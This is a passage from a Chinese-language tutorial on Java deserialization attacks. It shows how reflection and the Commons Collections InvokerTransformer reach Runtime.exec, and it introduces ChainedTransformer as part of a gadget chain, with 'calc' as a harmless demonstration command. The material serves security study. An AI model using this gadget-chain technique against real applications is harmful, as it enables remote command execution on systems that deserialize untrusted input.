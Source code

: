 但是在`Runtime`里看一下，发现它没有`serializable`接口，不能被序列化：

![image-20240306221435981](assets/image-20240306221435981.png)

这里可以运用反射来获取它的原型类，它的原型类`class`是存在`serializable`接口可以序列化的，在这可以看到`getRuntime()`方法，该方法会返回一个`Runtime`对象，所以我们可通过反射：

```java
Class c=Class.forName("java.lang.Runtime");                 //获取类原型
Method getRuntime= c.getDeclaredMethod("getRuntime",null);    //获取getRuntime方法，
Runtime r=(Runtime) getRuntime.invoke(null,null);  //获取实例化对象，因为该方法无无参方法，所以全为null
Method exec=c.getDeclaredMethod("exec", String.class);        //获取exec方法
exec.invoke(r,"calc");                                         //实现命令执行
Class rc = Class.forName("java.lang.Runtime");
```

利用前面`transform`方法实现上述代码：

```java
Class c=Class.forName("java.lang.Runtime");                 //获取类原型        
Method getRuntime = (Method) new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(c);
//这里模拟获取getRuntime方法，它的具体操作步骤类似之前
Runtime r = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntime);
//这里模拟获取invoke方法
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
//这里模拟获取exec方法，并进行命令执行
```

但是这样写很繁琐，`Commons Collections`库中存在的`ChainedTransformer`类，它也存在`transform`方法可以帮我们遍历`InvokerTransformer`，并且调用`transform`方法。

## org.apache.commons.collections.functors.ChainedTransformer

`ChainedTransformer`方法实现了`Serializable`
